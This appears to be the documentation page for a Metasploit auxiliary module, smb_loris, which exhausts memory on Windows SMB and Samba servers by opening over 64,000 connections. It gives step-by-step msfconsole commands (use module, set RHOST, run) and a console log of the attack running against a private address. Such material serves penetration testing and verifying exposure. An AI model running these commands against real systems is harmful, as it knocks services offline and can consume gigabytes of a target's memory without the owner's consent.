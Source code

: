## Vulnerable Application

  This module exploits a vulnerability in the NetBIOS Session Service Header for SMB.
  Any Windows machine with SMB Exposed, or any Linux system running Samba are vulnerable.
  See [the SMBLoris page](http://smbloris.com/) for details on the vulnerability.
  
  The module opens over 64,000 connections to the target service, so please make sure
  your system ULIMIT is set appropriately to handle it. A single host running this module
  can theoretically consume up to 8GB of memory on the target.

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Start msfconsole
  1. Do: `use auxiliary/dos/smb/smb_loris`
  1. Do: `set RHOST [IP]`
  1. Do: `run`
  1. Target should allocate increasing amounts of memory.

## Scenarios

### 

```
msf auxiliary(smb_loris) > use auxiliary/dos/smb/smb_loris
msf auxiliary(smb_loris) > set RHOST 192.168.172.138
RHOST => 192.168.172.138
msf auxiliary(smb_loris) >

msf auxiliary(smb_loris) > run

[*] 192.168.172.138:445 - Sending packet from Source Port: 1025
[*] 192.168.172.138:445 - Sending packet from Source Port: 1026
[*] 192.168.172.138:445 - Sending packet from Source Port: 1027
[*] 192.168.172.138:445 - Sending packet from Source Port: 1028
[*] 192.168.172.138:445 - Sending packet from Source Port: 1029
[*] 192.168.172.138:445 - Sending packet from Source Port: 1030
[*] 192.168.172.138:445 - Sending packet from Source Port: 1031
[*] 192.168.172.138:445 - Sending packet from Source Port: 1032
[*] 192.168.172.138:445 - Sending packet from Source Port: 1033
....
```
